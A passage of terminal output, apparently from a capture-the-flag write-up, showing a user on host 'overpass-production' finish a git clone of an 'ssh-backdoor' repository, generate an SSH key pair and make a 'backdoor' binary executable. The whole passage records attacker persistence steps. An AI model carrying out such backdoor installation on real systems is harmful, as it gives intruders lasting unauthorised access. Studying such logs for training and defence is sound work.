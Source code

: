 ```bash
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
```